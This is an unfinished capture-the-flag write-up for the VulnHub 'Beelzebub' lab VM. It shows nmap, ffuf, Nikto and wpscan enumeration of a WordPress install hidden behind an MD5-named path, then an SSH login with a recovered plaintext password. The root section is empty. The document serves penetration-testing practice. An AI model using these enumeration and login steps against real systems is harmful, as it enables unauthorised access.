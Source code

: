 # Beelzebub

Link: https://www.vulnhub.com/entry/beelzebub-1,742/  
Level: Easy  
Credits:  Shaurya Sharma  

## Description

Difficulty: Easy

You have to enumerate as much as you can and don't forget about the Base64.  
For hints add me on  
Twitter- ShauryaSharma05  

---

## Enumeration

Nmap 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Ffuf



Nikto



```
http://192.168.1.175/phpinfo.php
http://192.168.1.175/phpmyadmin/
```

![image](https://user-images.githubusercontent.com/5285547/136195726-5cfe5b93-818b-4232-9e71-645d63e7aca9.png)

Encoding to MD5

```
$ echo -n "beelzebub"  | md5sum
d18e1e22becbd915b45e0e655429d487
```

New path to fuzz

```
http://IP/d18e1e22becbd915b45e0e655429d487/

ffuf -u http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -mc all -fc 404,403 -ic  -c

wp-content              [Status: 301, Size: 352, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 353, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 350, Words: 20, Lines: 10]
```

```
wpscan --url http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/ --ignore-main-redirect --force -e 

[i] User(s) Identified:

[+] krampus
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] valak
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

```
http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/wp-login.php
```

![image](https://user-images.githubusercontent.com/5285547/136202391-5ec0a7b2-82f1-46fa-9ea8-8b2853d7363b.png)

We get a new portal. 

http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/wp-content/uploads/Talk%20To%20VALAK/

![image](https://user-images.githubusercontent.com/5285547/136202440-0eb2e755-257d-4676-838a-ec3156db9db2.png)

![image](https://user-images.githubusercontent.com/5285547/136202627-b78616e2-a251-458b-adaa-233ed358eb70.png)



## User

```
ssh krampus@IP
M4k3Ad3a1
```

## Root

## Conclusion
